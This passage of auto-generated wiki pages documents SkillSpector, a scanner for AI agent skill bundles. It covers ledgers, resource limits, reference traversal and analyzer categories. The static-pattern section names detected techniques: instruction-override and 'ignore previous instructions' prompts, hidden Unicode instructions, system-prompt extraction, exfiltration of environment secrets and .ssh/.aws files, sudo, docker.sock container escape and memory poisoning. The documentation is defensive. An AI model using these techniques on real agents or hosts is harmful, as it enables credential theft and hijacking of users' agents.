graph TD
    Components["Component List & File Cache"] --> Prewarm["build_python_ast_cache()"]
    Prewarm --> CheckSize{"Source len < MAX_PYTHON_AST_SOURCE_CHARS?"}
    CheckSize -->|Yes| Parse["parse_python_source(content, filename)"]
    Parse --> BuildAliases["build_import_aliases(tree)"]
    BuildAliases --> StoreCache["Cache ParsedPythonFile in _RuntimePythonAstCache"]
    StoreCache --> Consumers["Behavioral Analyzers & Taint Tracking"]

    classDef default stroke:#000,fill:none;
```
*Figure 3: Python AST prewarming and caching workflow across parallel analyzer branches.*

Sources:
- `src/skillspector/python_ast.py:34-82`
- `src/skillspector/python_ast.py:114-165`

---

## Reference Extraction and Validation

The reference extraction subsystem (`src/skillspector/references.py`) parses the primary skill files to discover intra-bundle file references (`BundleReference`) [src/skillspector/references.py:4-19](). Candidate strings are extracted via regex patterns and priority-queue merge iterators to prevent memory exhaustion on malicious inputs [src/skillspector/references.py:59-71](). Extracted paths are normalized and checked for parent traversal (`../`) or absolute path violations (`_normalize_candidate`) [src/skillspector/references.py:122-138]().

Sources:
- `src/skillspector/references.py:20-45`
- `src/skillspector/references.py:59-138`

---

# Page: Inspection Ledger, Completeness and Resource Bounds

# Inspection Ledger, Completeness and Resource Bounds

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/ANALYSIS_RESOURCE_BOUNDS.md](docs/ANALYSIS_RESOURCE_BOUNDS.md)
- [scripts/compare_scan_accuracy.py](scripts/compare_scan_accuracy.py)
- [scripts/generate_unicode_confusables.py](scripts/generate_unicode_confusables.py)
- [src/skillspector/inspection_ledger.py](src/skillspector/inspection_ledger.py)
- [src/skillspector/nodes/analyzers/static_patterns_tool_misuse.py](src/skillspector/nodes/analyzers/static_patterns_tool_misuse.py)
- [src/skillspector/nodes/finalize_inspection_ledger.py](src/skillspector/nodes/finalize_inspection_ledger.py)
- [src/skillspector/security_reconstruction.py](src/skillspector/security_reconstruction.py)
- [tests/nodes/analyzers/test_security_reconstruction.py](tests/nodes/analyzers/test_security_reconstruction.py)
- [tests/nodes/test_analysis_completeness.py](tests/nodes/test_analysis_completeness.py)
- [tests/test_inspection_ledger.py](tests/test_inspection_ledger.py)

</details>


## Purpose and Scope

This document details the audit subsystem, completeness reporting, and resource governance model of SkillSpector. The inspection ledger records the terminal outcomes and reasoning of all analytical work items across the LangGraph execution pipeline. The analysis completeness subsystem projects these outcomes into coverage percentages and structured exceptions. Finally, the fail-closed resource bound model (documented in `docs/ANALYSIS_RESOURCE_BOUNDS.md`) enforces strict ceilings on time, memory, file sizes, and finding outputs to ensure safe inspection of untrusted skill bundles.

Sources: `src/skillspector/inspection_ledger.py:4-151` [src/skillspector/inspection_ledger.py:4-151](), `docs/ANALYSIS_RESOURCE_BOUNDS.md:1-21` [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-21]()

---

## 1. Inspection Ledger Architecture and Event Model

The inspection ledger is an append-only audit log tracking every unit of work performed by analyzers, pre-checkers, and system nodes. It is structured around typed contracts defined in `src/skillspector/inspection_ledger.py`.

### Key Data Structures and Enums

*   `LedgerOutcome`: Defines the terminal state of an inspection work item (`COMPLETED`, `PARTIAL`, `SKIPPED`, `FAILED`, `OUT_OF_SCOPE`) [src/skillspector/inspection_ledger.py:23-30]().
*   `LedgerRecordType`: Categorizes records as `WORK_ITEM`, `SYSTEM`, or `SCOPE_BOUNDARY` [src/skillspector/inspection_ledger.py:33-39]().
*   `LedgerReason`: An allowlisted set of enumeration values explaining why inspection work was omitted, skipped, or failed (e.g., `SIZE_LIMIT`, `BINARY_CONTENT`, `SYNTAX_ERROR`, `LLM_BATCH_FAILED`, `ANALYZER_RUNTIME_ERROR`) [src/skillspector/inspection_ledger.py:41-96]().
*   `REASON_MESSAGES`: A dictionary mapping each `LedgerReason` to a human-readable explanation [src/skillspector/inspection_ledger.py:98-151]().

### Work Identification and Event Generation

Work items are uniquely identified via `inspection_work_id()`, which binds an `analyzer_id`, a relative file `path`, and optional line range markers (`start_line`, `end_line`) to prevent collisions across overlapping chunks [tests/test_inspection_ledger.py:37-44](). 

The factory function `ledger_event()` constructs validated event dictionaries, enforcing invariants such as prohibiting failed or skipped events from claiming findings they did not emit, and ensuring paths are relative POSIX strings [tests/test_inspection_ledger.py:87-147]().

```mermaid
graph TD
    A["Analyzer Plugin"] -->|"Emits Raw Findings"| B["ledger_event()"]
    C["File & Chunk Info"] -->|"Calculates work_id"| D["inspection_work_id()"]
    D --> B
    B -->|"Validates Invariants"| E["InspectionLedgerEvent Dictionary"]
    E -->|"Appended to State"| F["SkillspectorState[\"inspection_ledger\"]"]

    classDef default fill:#fff,stroke:#333,stroke-width:1px;
```
*Sources: `src/skillspector/inspection_ledger.py:18-96` [src/skillspector/inspection_ledger.py:18-96](), `tests/test_inspection_ledger.py:18-147` [tests/test_inspection_ledger.py:18-147]()*

---

## 2. Ledger Finalization and Completeness Projections

Once parallel analyzers complete execution, the graph invokes `finalize_inspection_ledger()` from `src/skillspector/nodes/finalize_inspection_ledger.py` [src/skillspector/nodes/finalize_inspection_ledger.py:88-156]().

### Finalization Logic and Reference Coverage

The finalization node performs several critical aggregation and validation passes:
1.  **Reference Coverage Validation (`_reference_coverage_findings`)**: Inspects artifact references against inventory dispositions and ledger outcomes. If a referenced target exhibits an incomplete disposition (`partial`, `failed`, `out_of_scope`), a high-severity `AE1` finding is synthesized with tag `target-disposition:<status>` [src/skillspector/nodes/finalize_inspection_ledger.py:24-85]().
2.  **Finding Output Caps**: Enforces `MAX_FINDING_OUTPUT_RECORDS` (10,000). If findings exceed this bound, a system ledger event with reason `OUTPUT_LIMIT` is injected [src/skillspector/inspection_ledger.py:19](), [src/skillspector/nodes/finalize_inspection_ledger.py:107-123]().
3.  **Completeness Projection (`finalize_ledger`)**: Summarizes total components, scanned components, coverage percentages, and categorizes files as fully inspected, partially inspected, or entirely uninspected [tests/nodes/test_analysis_completeness.py:46-61]().

```mermaid
graph TD
    A["SkillspectorState[\"inspection_ledger\"]"] --> B["finalize_inspection_ledger()"]
    B --> C["_reference_coverage_findings()"]
    C -->|"Synthesizes AE1 findings if incomplete"| D["Updated Findings List"]
    B --> E["finalize_ledger()"]
    E --> F["AnalysisCompleteness Projection"]
    F --> G["Report Generation & SARIF Output"]

    classDef default fill:#fff,stroke:#333,stroke-width:1px;
```
*Sources: `src/skillspector/inspection_ledger.py:18-20` [src/skillspector/inspection_ledger.py:18-20](), `src/skillspector/nodes/finalize_inspection_ledger.py:24-156` [src/skillspector/nodes/finalize_inspection_ledger.py:24-156]()*

---

## 3. Fail-Closed Resource Bound Model

SkillSpector enforces deterministic resource ceilings on untrusted skill bundles to defend against denial-of-service, path traversal, and decompression bombs. These boundaries are fully documented in `docs/ANALYSIS_RESOURCE_BOUNDS.md` [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-21]().

### Resource Ceilings Overview

The subsystem enforces constraints across multiple pipeline stages:

| Resource Domain | Ceiling / Limit | Scope / Enforcement |
| :--- | :--- | :--- |
| **Discovered Entries** | 10,000 entries | One skill bundle / directory traversal |
| **Traversal Depth** | 64 levels | Filesystem directory recursion |
| **Source Bytes** | 64 MiB | Ordinary files and expanded nested members combined |
| **Artifact Cache** | 16 MiB | Max bytes cached from a single filesystem artifact |
| **Workflow Timeout** | 600 seconds | End-to-end graph execution |
| **Nested Archives** | 3 recursion depth, 1,000 members, 25 MiB expanded | Container extraction limits |
| **Manifest YAML** | 256 KiB frontmatter, 10,000 nodes, 64 depth | Primary `SKILL.md` parser bounds |
| **Reference Extraction** | 1,000,000 bytes examined, 256 accepted refs | Primary instruction parsing limits |
| **Transitive Targets** | 32 external targets, 10 MiB downloaded bytes | Bounded traversal bounds |

### Fail-Closed Philosophy

When any resource ceiling is reached, SkillSpector does not fail open or treat the truncated portion as clean. Instead, the scanner records an explicit limitation in the `analysis_completeness` structure, emits a corresponding `LedgerReason` (e.g., `SIZE_LIMIT`, `TRAVERSAL_DEPTH_LIMIT`, `RUNTIME_LIMIT`), and flags the analysis as `partial` [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-5](), [src/skillspector/inspection_ledger.py:41-96]().

Sources: `docs/ANALYSIS_RESOURCE_BOUNDS.md:1-141` [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-141](), `src/skillspector/inspection_ledger.py:41-96` [src/skillspector/inspection_ledger.py:41-96]()

---

# Page: Transitive Reference Traversal

# Transitive Reference Traversal

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/cli.py](src/skillspector/cli.py)
- [src/skillspector/transitive.py](src/skillspector/transitive.py)
- [tests/nodes/test_transitive_analyzer_deadlines.py](tests/nodes/test_transitive_analyzer_deadlines.py)
- [tests/unit/test_cli.py](tests/unit/test_cli.py)
- [tests/unit/test_transitive.py](tests/unit/test_transitive.py)

</details>


## Purpose and Scope

This page documents the transitive reference traversal subsystem in SkillSpector, activated via the `--transitive` CLI flag. When scanning AI agent skills that reference external codebases, datasets, or tool repositories via URLs or Git references, SkillSpector can optionally traverse, extract, and scan those external dependencies up to strict deterministic resource bounds. This subsystem prevents recursive scanning denial-of-service (DoS), infinite circular reference loops, and uncontrolled resource consumption.

Sources: [src/skillspector/cli.py:39-42](), [src/skillspector/transitive.py:16-17]()

---

## Architecture and Core State Classes

The traversal orchestrates state through the CLI wrapper state machine and shared extraction/planning primitives. The primary tracking state structure is `_TransitiveTraversalState`, which pairs with `_TransitiveBudget` to enforce bounds on targets, bytes, artifacts, time, and record counts.

```mermaid
graph TD
    A["CLIArgInput"] --> B["_TransitiveTraversalState"]
    B --> C["_TransitiveBudget"]
    B --> D["_CachedTransitiveResult"]
    B --> E["BoundedTransitiveFrontier"]
    C --> F["MaxTargets32"]
    C --> G["MaxBytes10MB"]
    C --> H["MaxSecondsWorkflow"]
    C --> I["MaxArtifacts10K"]

    subclass A,B,C,D,E,F,G,H,I plain
```
*Diagram 1: Transitive Traversal State and Budget Architecture (`_TransitiveTraversalState`, `_TransitiveBudget`, `cli.py`).*

Sources: [src/skillspector/cli.py:130-196]()

### Resource Budget Definition

The CLI defines hard limits for transitive scans to protect host resources. These limits are encapsulated in `_TransitiveBudget`:

*   `max_targets`: Defaults to `32` maximum traversed external targets [src/skillspector/cli.py:101-132]().
*   `max_bytes`: Defaults to `10 * 1024 * 1024` (10 MB) total scanned bytes [src/skillspector/cli.py:102-133]().
*   `max_seconds`: Bounded by `MAX_WORKFLOW_SECONDS` [src/skillspector/cli.py:103-134]().
*   `max_artifacts`: Defaults to `10,000` files/artifacts across all traversed roots [src/skillspector/cli.py:104-135]().
*   `max_findings`, `max_components`, `max_ledger_events`, `max_status_events`, `max_references`: Each bounded at `10,000` records [src/skillspector/cli.py:105-140]().

The `_TransitiveTraversalState` class manages runtime accounting, storing caching records in `cache: dict[str, _CachedTransitiveResult]`, tracking execution time via `started_at`, and recording truncation reasons when safety thresholds are met [src/skillspector/cli.py:166-188]().

Sources: [src/skillspector/cli.py:101-196]()

---

## Reference Extraction and Normalization (`transitive.py`)

Reference extraction scans raw text file caches for HTTP/HTTPS URLs and `git@` SSH references using regular expression patterns, normalizing them and filtering out non-scan targets (such as badges, documentation links, and issue trackers).

```mermaid
graph TD
    A["FileCacheInput"] --> B["extract_external_refs_with_metadata"]
    B --> C["_EXTERNAL_REF_PATTERN"]
    C --> D["FilterExcludedHosts"]
    D --> E["ExternalReferenceRecord"]
    E --> F["ExternalReferenceExtractionResult"]

    subclass A,B,C,D,E,F plain
```
*Diagram 2: External Reference Extraction Pipeline (`extract_external_refs_with_metadata`, `ExternalReferenceExtractionResult`, `transitive.py`).*

Sources: [src/skillspector/transitive.py:73-144](), [tests/unit/test_transitive.py:57-76]()

### Extraction Limits and Data Models

The extraction module defines independent constraints via `ExternalReferenceLimits`:

| Parameter | Default Limit | Description |
| :--- | :--- | :--- |
| `max_sources` | `1024` | Maximum source files parsed for references [src/skillspector/transitive.py:57-115]() |
| `max_source_bytes` | `1,000,000` | Maximum aggregate bytes examined during extraction [src/skillspector/transitive.py:58-116]() |
| `max_raw_candidates` | `4096` | Maximum raw URL matches considered [src/skillspector/transitive.py:59-117]() |
| `max_accepted_references` | `256` | Maximum valid references retained [src/skillspector/transitive.py:60-118]() |
| `max_output_records` | `1024` | Maximum audit records produced [src/skillspector/transitive.py:61-119]() |
| `max_seconds` | `2.0` | Maximum runtime allotted for extraction [src/skillspector/transitive.py:62-120]() |

References matching excluded domains (such as `img.shields.io`, `travis-ci.com`, or badge services) are filtered out by `_EXCLUDED_HOSTS` [src/skillspector/transitive.py:78-85](). Accepted references are packaged into `ExternalReferenceExtractionResult` along with completeness flags and resource limitation metrics (`TransitiveResourceLimitation`) [src/skillspector/transitive.py:124-144]().

Sources: [src/skillspector/transitive.py:57-144]()

---

## Planning and Frontier Traversal

To traverse discovered dependencies breadth-first without falling into traps or circular dependencies, SkillSpector uses `BoundedTransitiveFrontier` and target planning logic.

### Circular Reference Blocking and Target Planning

The planning function `plan_transitive_targets()` accepts a sequence of raw references, a `visited` set of canonicalized identities, current depth counters, and prefix filters [tests/unit/test_transitive.py:37-55]().

```python
# Conceptual usage of plan_transitive_targets in traversal loops
first = transitive.plan_transitive_targets(
    refs, visited=visited, current_debt=1, max_depth=3, allow_prefixes=(), deny_prefixes=()
)
```

If a reference resolves to an identity already present in `visited`, it is blocked immediately before secondary resolution, preventing infinite recursion [tests/unit/test_transitive.py:37-55]().

### Frontier Wave Management

`BoundedTransitiveFrontier` implements a bounded FIFO queue maintaining up to `max_waves` (default `32`) and `max_references` (default `4096`), terminating early if its deadline elapses [src/skillspector/transitive.py:182-209]().

Sources: [src/skillspector/transitive.py:147-209](), [tests/unit/test_transitive.py:37-55]()

---

## Allow and Deny Prefix Filters

Traversal targets can be strictly restricted using allow and deny prefix filters passed to the planner.
*   **Deny Prefixes**: Any reference starting with a deny prefix is dropped immediately.
*   **Allow Prefixes**: If allow prefixes are specified, only references matching at least one allow prefix are retained for traversal.

This ensures that security scans do not inadvertently traverse out-of-scope external repositories or untrusted domains.

Sources: [tests/unit/test_transitive.py:46-50]()

---

## Shared Analyzer Deadlines and Resource Budgets

Transitive traversal integrates tightly with the workflow resource budget subsystem (`WorkflowResourceBudget`). As traversals and parallel analyzer nodes execute, they share a monotonic deadline clock [tests/nodes/test_transitive_analyzer_deadlines.py:31-42]().

### Deadline Propagation in Static and LLM Analyzers

When workflow time bounds are exhausted (e.g., `max_seconds=0.0`), downstream analyzer nodes and static pattern runners respect the expiration:
1.  Unstarted file components receive a partial ledger outcome with `LedgerReason.RUNTIME_LIMIT` [tests/nodes/test_transitive_analyzer_deadlines.py:116-145]().
2.  Analyzer invocation is bypassed for remaining targets, ensuring graceful degradation rather than hard crashes or hung processes [tests/nodes/test_transitive_analyzer_deadlines.py:147-165]().
3.  The completeness projection reflects `status: "partial"`, which triggers appropriate CI exit codes (such as exit code `1` when `--fail-on-incomplete` is set) [tests/nodes/test_transitive_analyzer_deadlines.py:47-93]().

Sources: [tests/nodes/test_transitive_analyzer_deadlines.py:31-188]()

---

# Page: Analyzer Nodes

# Analyzer Nodes

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/__init__.py](src/skillspector/nodes/analyzers/__init__.py)
- [src/skillspector/nodes/analyzers/common.py](src/skillspector/nodes/analyzers/common.py)
- [src/skillspector/nodes/analyzers/pattern_defaults.py](src/skillspector/nodes/analyzers/pattern_defaults.py)
- [src/skillspector/nodes/analyzers/static_runner.py](src/skillspector/nodes/analyzers/static_runner.py)
- [tests/fixtures/pe3_bare_keyring/SKILL.md](tests/fixtures/pe3_bare_keyring/SKILL.md)
- [tests/fixtures/pe3_bare_keyring/issue-396-keyring.md](tests/fixtures/pe3_bare_keyring/issue-396-keyring.md)
- [tests/nodes/analyzers/test_registry.py](tests/nodes/analyzers/test_registry.py)
- [tests/nodes/analyzers/test_static_runner_filtering.py](tests/nodes/analyzers/test_static_runner_filtering.py)
- [tests/unit/test_reviewer_nits.py](tests/unit/test_reviewer_nits.py)

</details>


The SkillSpector analysis engine comprises 27 specialized analyzer nodes registered centrally in `ANALYZER_NODE_IDS` [src/skillspector/nodes/analyzers/__init__.py:28-61](). These nodes operate in parallel within the LangGraph workflow to inspect skill components (code, manifests, documentation, and metadata) for security vulnerabilities, behavioral risks, policy violations, supply chain issues, and artifact integrity flaws.

Each analyzer is dynamically discovered and registered via `_discover_analyzers()` [src/skillspector/nodes/analyzers/__init__.py:33-61](), mapping string identifiers to executable node entry points in `ANALYZER_NODES` [src/skillspector/nodes/analyzers/__init__.py:29]() and their underlying modules in `ANALYZER_MODULES` [src/skillspector/nodes/analyzers/__init__.py:30](). Findings generated by these analyzers are normalized into `AnalyzerFinding` and `Finding` structures before deduplication and report generation.

### Analyzer Registry and Architecture Overview

The following diagrams illustrate how analyzer nodes bridge high-level security domains to concrete code modules and runner frameworks.

**Analyzer Node Mapping: Concepts to Code**
```mermaid
graph TD
    subgraph "Natural Language / Security Concepts"
        A["Prompt Injection & Data Exfiltration"]
        B["Dangerous Execution & Taint"]
        C["MCP Protocol & Capability Drift"]
        D["Semantic Developer Intent"]
    end

    subgraph "Code Entity Space (Analyzer Nodes & Modules)"
        A --> SN["static_patterns_* modules"]
        B --> BA["behavioral_ast"]
        B --> BT["behavioral_taint_tracking"]
        C --> MLP["mcp_least_privilege"]
        C --> MRP["mcp_rug_pull"]
        D --> SSD["semantic_security_discovery"]
        D --> SDI["semantic_developer_intent"]
    end

    subgraph "Shared Runners and Registries"
        SN --> SR["static_runner.py (run_static_patterns)"]
        BA --> AST["python_ast.py (get_python_ast)"]
        SSD --> LAB["LLMAnalyzerBase"]
        SR --> PD["pattern_defaults.py (PatternCategory)"]
    end
```
**Sources:** [src/skillspector/nodes/analyzers/__init__.py:28-61](), [src/skillspector/nodes/analyzers/static_runner.py:33-51](), [src/skillspector/nodes/analyzers/pattern_defaults.py:24-45]()

---

### Analyzer Categories

The 27 registered nodes are categorized into five core detection methodologies, supported by the shared static runner and pattern registry framework.

#### 3.1. Static Pattern Analyzers
These lexical and regular-expression analyzers detect known vulnerability signatures across code, configuration, and markdown artifacts. They cover prompt injection (P1-P4, P6, P9), data exfiltration (E1-E5), privilege escalation (PE1-PE5), agent snooping (AS1-AS3), SSRF, harmful content, excessive agency (EA1-EA4), output handling (OH1-OH3), system prompt leakage, memory poisoning, tool misuse, anti-refusal, rogue agent, deserialization, whitespace padding, structured skill roles, and supply chain threats (SC1-SC9).
*   **For details, see [Static Pattern Analyzers](#3.1)**

#### 3.2. Behavioral Analyzers (AST and Taint Tracking)
Behavioral analyzers inspect code semantics beyond simple pattern matching. `behavioral_ast` uses Python's native `ast` module to detect dangerous execution structures (AST1-AST9), while `behavioral_taint_tracking` performs source-to-sink data-flow analysis (TT1-TT5), alongside bundled execution surface and deserialization checks.
*   **For details, see [Behavioral Analyzers (AST and Taint Tracking)](#3.2)**

#### 3.3. MCP Security Analyzers
Designed specifically for Model Context Protocol architectures, these analyzers validate `SKILL.md` manifests and server implementations against least-privilege principles (`mcp_least_privilege`, LP1-LP4), tool poisoning vectors (`mcp_tool_poisoning`, TP1-TP4), and manifest drift/rug-pull indicators (`mcp_rug_pull`).
*   **For details, see [MCP Security Analyzers](#3.3)**

#### 3.4. Semantic (LLM-Powered) Analyzers
Leveraging large language models via `LLMAnalyzerBase`, these analyzers execute complex, open-ended evaluations including security discovery (`semantic_security_discovery`), developer intent divergence checks (`semantic_developer_intent`, SDI-1..SDI-4), and quality/policy compliance (`semantic_quality_policy`).
*   **For details, see [Semantic (LLM-Powered) Analyzers](#3.4)**

#### 3.5. YARA-Based Malware Detection and Integrity
The `static_yara` analyzer applies compiled YARA rule sets (covering malware, cryptominers, hacktools, webshells, and agent skills) against binary and text artifacts. Additionally, the `artifact_integrity` analyzer enforces AE1-AE6 rules (unresolved references, misleading extensions, NUL bytes, unicode/mixed-script anomalies, oversized artifacts, and inter-character obfuscation).
*   **For details, see [YARA-Based Malware Detection](#3.5) and [Artifact Integrity and Evasion Detection (AE Rules)](#3.6)**

---

### Shared Static Runner and Pattern Framework

The shared static runner (`src/skillspector/nodes/analyzers/static_runner.py`) provides windowed security text projections, markdown fence context awareness, continuity views, finding budgets, deduplication, and false-positive filtering [src/skillspector/nodes/analyzers/static_runner.py:16-176](). It normalizes inputs, gates files exceeding `MAX_FILE_CHARS` [src/skillspector/nodes/analyzers/static_runner.py:89](), and routes text through pattern modules using `pattern_defaults.py` metadata mappings [src/skillspector/nodes/analyzers/static_runner.py:65]().

**Static Analysis Pipeline Data Flow**
```mermaid
graph LR
    subgraph "State Input"
        COMP["components"]
        FC["file_cache"]
    end

    subgraph "Shared Runner (static_runner.py)"
        STV["security_text_views"]
        WND["Windowing & Fences"]
        RSP["run_static_patterns"]
    end

    subgraph "Pattern & Registry Layer"
        PD["pattern_defaults.py"]
        MOD["Static Pattern Modules"]
    end

    subgraph "Output"
        AF["AnalyzerFinding List"]
    end

    COMP --> RSP
    FC --> RSP
    RSP --> STV
    STV --> WND
    WND --> MOD
    MOD --> PD
    MOD --> AF
```
**Sources:** [src/skillspector/nodes/analyzers/static_runner.py:29-176](), [src/skillspector/nodes/analyzers/pattern_defaults.py:24-45]()

**Sources:**
* [src/skillspector/nodes/analyzers/__init__.py:28-61]()
* [src/skillspector/nodes/analyzers/static_runner.py:16-176]()
* [src/skillspector/nodes/analyzers/pattern_defaults.py:24-45]()
* [tests/nodes/analyzers/test_registry.py:20-53]()

---

# Page: Static Pattern Analyzers

# Static Pattern Analyzers

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/static_patterns_anti_refusal.py](src/skillspector/nodes/analyzers/static_patterns_anti_refusal.py)
- [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py](src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py)
- [src/skillspector/nodes/analyzers/static_patterns_excessive_agency.py](src/skillspector/nodes/analyzers/static_patterns_excessive_agency.py)
- [src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py](src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py)
- [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py](src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py)
- [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py](src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py)
- [src/skillspector/nodes/analyzers/static_patterns_rogue_agent.py](src/skillspector/nodes/analyzers/static_patterns_rogue_agent.py)
- [src/skillspector/nodes/analyzers/static_patterns_ssrf.py](src/skillspector/nodes/analyzers/static_patterns_ssrf.py)
- [src/skillspector/nodes/analyzers/static_patterns_system_prompt_leakage.py](src/skillspector/nodes/analyzers/static_patterns_system_prompt_leakage.py)
- [src/skillspector/nodes/analyzers/structured_skill_roles.py](src/skillspector/nodes/analyzers/structured_skill_roles.py)
- [src/skillspector/nodes/analyzers/whitespace_padding.py](src/skillspector/nodes/analyzers/whitespace_padding.py)
- [tests/nodes/analyzers/test_binary_and_pe3_filtering.py](tests/nodes/analyzers/test_binary_and_pe3_filtering.py)
- [tests/nodes/analyzers/test_ea1_wildcard_line_boundary.py](tests/nodes/analyzers/test_ea1_wildcard_line_boundary.py)
- [tests/nodes/analyzers/test_mp2_regex_backtracking.py](tests/nodes/analyzers/test_mp2_regex_backtracking.py)
- [tests/nodes/analyzers/test_static_false_positive_controls.py](tests/nodes/analyzers/test_static_false_positive_controls.py)
- [tests/nodes/analyzers/test_static_patterns.py](tests/nodes/analyzers/test_static_patterns.py)
- [tests/nodes/analyzers/test_static_patterns_anti_refusal.py](tests/nodes/analyzers/test_static_patterns_anti_refusal.py)
- [tests/nodes/analyzers/test_structured_skill_roles.py](tests/nodes/analyzers/test_structured_skill_roles.py)
- [tests/nodes/analyzers/test_whitespace_padding.py](tests/nodes/analyzers/test_whitespace_padding.py)
- [tests/unit/test_patterns.py](tests/unit/test_patterns.py)

</details>


Static pattern analyzers serve as the first line of defense in the SkillSpector pipeline. They utilize high-performance regular expressions, lexical rules, and AST-assisted fallbacks to scan skill content (code, manifests, and documentation) for known malicious signatures, security misconfigurations, and dangerous instructional patterns.

These analyzers are categorized into distinct nodes managed by the centralized static pattern framework [src/skillspector/nodes/analyzers/pattern_defaults.py:24-41](). Because this is a parent page, high-level domains are summarized below. For detailed mechanics on the runner, windowed text views, deduplication, and false-positive filters, see [Static Runner and Pattern Framework](#3.1.1). For supply chain analysis and OSV lookups, see [Supply Chain and Trigger Analyzers (SC/TR)](#3.1.2) and [Supply Chain: OSV.dev Live Vulnerability Lookups (SC4)](#3.1.3).

---

## Architecture and Execution Overview

Static analyzers operate as parallel nodes within the core inspection graph. The runner (`run_static_patterns` in `src/skillspector/nodes/analyzers/static_runner.py`) orchestrates file iteration, binary skipping, type inference, and invocation of each module's `analyze()` function.

### Diagram: Static Pattern Analyzer Topology
The following diagram bridges natural language security categories to their implementing code entities within `src/skillspector/nodes/analyzers/`.

**Static Pattern Analyzer Topology**
```mermaid
graph TD
    subgraph "NaturalLanguageSpace"
        [PromptInjection]
        [DataExfiltration]
        [PrivilegeEscalation]
        [MemoryPoisoning]
        [AntiRefusal]
        [SupplyChain]
    end

    subgraph "CodeEntitySpace"
        [static_runner.py] --> [run_static_patterns]
        [static_runner.py] --> [_infer_file_type]
        [static_patterns_prompt_injection.py] --> [prompt_injection_analyze]
        [static_patterns_data_exfiltration.py] --> [data_exfiltration_analyze]
        [static_patterns_privilege_escalation.py] --> [privilege_escalation_analyze]
        [static_patterns_memory_poisoning.py] --> [memory_poisoning_analyze]
        [static_patterns_anti_refusal.py] --> [anti_refusal_analyze]
        [static_patterns_supply_chain.py] --> [supply_chain_analyze]
    end

    [PromptInjection] --> [static_patterns_prompt_injection.py]
    [DataExfiltration] --> [static_patterns_data_exfiltration.py]
    [PrivilegeEscalation] --> [static_patterns_privilege_escalation.py]
    [MemoryPoisoning] --> [static_patterns_memory_poisoning.py]
    [AntiRefusal] --> [static_patterns_anti_refusal.py]
    [SupplyChain] --> [static_patterns_supply_chain.py]
```
Sources: [src/skillspector/nodes/analyzers/pattern_defaults.py:24-41](), [src/skillspector/nodes/analyzers/static_runner.py:46-136]().

---

## Core Vulnerability Domains

The static pattern suite covers a wide range of threat categories mapped to standard security taxonomies (OWASP LLM Top 10, MITRE ATLAS, ASI):

### 1. Prompt Injection & System Prompt Leakage (P1–P9)
*   **P1 (Instruction Override):** Direct commands instructing the model to ignore previous instructions or enter jailbreak modes [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py:63-75]().
*   **P2 (Hidden Instructions):** Zero-width characters, HTML/markdown comments, and Unicode Tag-block ASCII smuggling (`U+E0000–U+E007F`), with carve-outs for legitimate emoji subdivision flags and ZWJ sequences [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py:79-119]().
*   **P3 & P4 (Exfiltration & Behavior Manipulation):** Instructions to transmit conversation histories or subtly steer agent responses [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py:93-152]().
*   **P6–P8 (System Prompt Leakage):** Direct extraction (`P6`), side-channel inference (`P7`), and exfiltration via tool calls (`P8`) [src/skillspector/nodes/analyzers/static_patterns_system_prompt_leakage.py:43-152]().
*   **P9 (Whitespace Padding):** Excessive whitespace runs used for context flooding or evasion.

### 2. Data Exfiltration (E1–E5)
*   **E1 (External Transmission):** Unauthorized HTTP requests (`requests.post`, `httpx`, `curl`) targeting external collection endpoints [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:45-58]().
*   **E2 (Environment Harvesting):** Bulk dumping of `os.environ` or environment variable inspection targeting keys like `SECRET` or `TOKEN` [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:59-78]().
*   **E3 (File System Enumeration):** Recursive traversal or globbing of sensitive paths (`.ssh`, `.aws`, `.env`) [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:89-104]().
*   **E4 & E5 (Context Export & Cloud Sinks):** Storing conversation context or shipping data out via cloud storage SDKs (Boto3, GCS, Azure) [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:105-143]().

### 3. Privilege Escalation & Container Escape (PE1–PE5)
*   **PE1 (Excessive Permissions):** Requesting wildcard `*` permissions or unconstrained scope [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py:43-57]().
*   **PE2 (Root Execution):** Invoking `sudo`, `su`, `pkexec`, or setting setuid bits [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py:58-75]().
*   **PE3 (Credential Access):** Targeting private keys, credential files, or keychains [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py:76-103]().
*   **PE4 & PE5 (Host/Container Escape):** Accessing `docker.sock`, privileged container flags (`--privileged`, `--cap-add=SYS_ADMIN`), or namespace manipulation (`nsenter`, `unshare`) [src/skillspector/nodes/analyzers/static_patterns_privilege_escalation.py:104-121]().

### 4. Memory Poisoning & Context Stuffing (MP1–MP3)
*   **MP1 (Persistent Context Injection):** Direct injection of instructions intended to persist across sessions ("always remember this for future interactions") [src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py:43-80]().
*   **MP2 (Context Window Stuffing):** Repeated token patterns designed to displace safety guardrails, protected against catastrophic backtracking [src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py:83-109](), [tests/nodes/analyzers/test_mp2_regex_backtracking.py:68-82]().
*   **MP3 (Memory Manipulation):** Instructions to wipe, reset, or overwrite agent memory and persona [src/skillspector/nodes/analyzers/static_patterns_memory_poisoning.py:112-153]().

### 5. Additional Static Pattern Categories
